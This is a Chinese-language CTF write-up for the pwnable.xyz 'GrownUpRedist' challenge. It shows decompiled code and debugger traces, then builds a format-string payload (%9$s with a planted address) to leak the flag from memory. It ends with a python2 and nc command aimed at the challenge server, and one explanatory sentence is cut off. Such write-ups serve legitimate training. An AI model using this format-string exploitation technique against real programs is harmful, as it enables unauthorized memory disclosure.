

ghidra查看代码

```c
undefined8 main(void)

{
  ssize_t sVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  local_28 = 0;
  local_20 = 0;
  printf("Are you 18 years or older? [y/N]: ");
  sVar1 = read(0,&local_28,0x10);                // B
  *(undefined *)((long)&local_28 + (long)((int)sVar1 + -1)) = 0;
  if (((char)local_28 == 'y') || ((char)local_28 == 'Y')) {
    __src = (char *)malloc(0x84);
    printf("Name: ");
    read(0,__src,0x80);
    strcpy(usr,__src);
    printf("Welcome ");
    printf(usr._128_8_,usr);               // A
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```


A行下断点，随便输入一些数据

```
pwndbg> b *main+233
Breakpoint 1 at 0x40094e
pwndbg> r
Starting program: /home/goevil/share/pwn/challenge_25/GrownUpRedist
Are you 18 years or older? [y/N]: y
Name: noevil
Welcome
...
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
 ► 0x40094e <main+233>             call   printf@plt                      <printf@plt>
        format: 0x601168 (usr+136) ◂— 0xa7325 /* '%s\n' */
        vararg: 0x6010e0 (usr) ◂— 0xa6c6976656f6e /* 'noevil\n' */
...
```

一切正常


再输入128字节的名字看看：

```
───────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────
 ► 0x40094e <main+233>             call   printf@plt                      <printf@plt>
        format: 0x601100 (usr+32) ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
        vararg: 0x6010e0 (usr) ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

观察到format字符串为usr字符串偏移32的位置，可以利用格式化字符串漏洞。
而需要的flag在



因此，还需要栈上有一个指向该地址的值。

观察B行，local_28正好满足要求。


拼凑payload

| 18+？（8字节） | flag地址（8字节）                  | 名字（32字节） | 格式化字符串+padding(够长就行)<br />（为什么是第9个参数gdb调试一下就知道了） |
| -------------- | ---------------------------------- | -------------- | ------------------------------------------------------------ |
| “yyyyyyyy”     | "\x80\x10\x60\x00\x00\x00\x00\x00" | "a"*32         | "(%9$s)" + "a"*0x80                                          |


脚本：

```shell
$ python2 -c 'print "y"*8 + "\x80\x10\x60\x00\x00\x00\x00\x00" + "a"*(32)+"(%9$s)" + "a"*0x80' > input.txt
$ nc svc.pwnable.xyz 30004 < input.txt
```

